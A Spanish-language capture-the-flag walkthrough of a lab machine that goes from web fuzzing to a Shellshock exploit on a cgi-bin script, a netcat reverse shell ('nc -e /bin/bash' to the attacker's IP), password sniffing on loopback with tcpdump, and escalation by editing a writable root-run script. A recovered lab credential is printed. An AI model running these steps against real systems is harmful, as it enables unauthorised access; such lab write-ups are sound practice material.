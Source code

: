 Hacemos el reconocimiento con nmap:
![[Pasted image 20230923120606.png]]
Y esta sería la página web que corre por el puerto 80:
![[Pasted image 20230923120726.png]]
Viendo el código fuente nos encontramos con esto:
![[Pasted image 20230923120757.png]]
Hacemos fuzzing web y nos encontramos con el directorio gate:
![[Pasted image 20230923121142.png]]
![[Pasted image 20230923121157.png]]
Seguimos haciendo fuzzing y nos encontramos con el directorio cerberus:
![[Pasted image 20230923121422.png]]
![[Pasted image 20230923121431.png]]
Y ahora si volvemos a hacer fuzzing, nos encontramos con el directorio tartarus (pero usando el diccionario common.txt):
![[Pasted image 20230923121654.png]]
![[Pasted image 20230923121711.png]]
Y dentro del código fuente tenemos esto:
![[Pasted image 20230923121734.png]]
De todos modos, si volvemos a hacer fuzzing desde la raíz pero usando el diccionario common.txt, vemos el directorio cgi-bin:
![[Pasted image 20230923121831.png]]
Y si hacemos fuzzing otra vez pero sobre el cgi-bin, vemos el directorio underworld:
![[Pasted image 20230923122003.png]]
![[Pasted image 20230923122021.png]]
Al tratarse de un cgi-bin, podemos pensar que estamos ante un shellshock, por lo que buscamos exploits en metasploit:
![[Pasted image 20230923122231.png]]
Establecemos la siguiente configuración en el exploit:
![[Pasted image 20230923122359.png]]
Y así nos debería quedar la configuración:
![[Pasted image 20230923122435.png]]
Y así debería funcionar, aunque podemos hacerlo de forma manual:
![[Pasted image 20230923122634.png]]
Nos lo bajamos:
![[Pasted image 20230923122703.png]]
Y ejecutamos el exploit de la siguiente manera:
```bash
php 34766.php -u http://192.168.0.72/cgi-bin/underworld/ -c "nc -e /bin/bash 192.168.0.63 443"
```
![[Pasted image 20230923122846.png]]
Y recibimos la conexión:
![[Pasted image 20230923122916.png]]
Vamos a descargar y ejecutar el pspy dentro de esta máquina para conocer si hay algo corriendo por detrás:
![[Pasted image 20230923123126.png]]
![[Pasted image 20230923123144.png]]
Y vemos que se está ejecutando un script con python2 dentro del directorio /opt:
![[Pasted image 20230923123236.png]]
Pero no tenemos permisos para acceder:
![[Pasted image 20230923123309.png]]
Pero sí podemos capturar el tráfico de red de este servicio usando tcpdump, por lo que primero listamos las interfaces de red:
![[Pasted image 20230923123449.png]]
Y ahora capturamos el tráfico de la interfaz .lo:
```bash
tcpdump -i lo -w captura.pcap
```
![[Pasted image 20230923123632.png]]
Y ahora este pcap vamos a compartirlo con mi máquina atacante para analizarlo con wireshark:
![[Pasted image 20230923123742.png]]
![[Pasted image 20230923123752.png]]
Y nos encontramos con una contraseña:
![[Pasted image 20230923123930.png]]
```
hades:PTpZTfU4vxgzvRBE
```
Y sabemos que hay otro usuario llamado hades, además de estar abierto el puerto 22:
![[Pasted image 20230923124047.png]]
Y tenemos acceso por ssh:
![[Pasted image 20230923124144.png]]
Y ahora sí tenemos acceso al directorio /opt:
![[Pasted image 20230923124209.png]]
Y vemos que podemos escribir dentro de este script:
![[Pasted image 20230923124339.png]]
Modificamos el código para cambiar permisos a la bash:
![[Pasted image 20230923124457.png]]
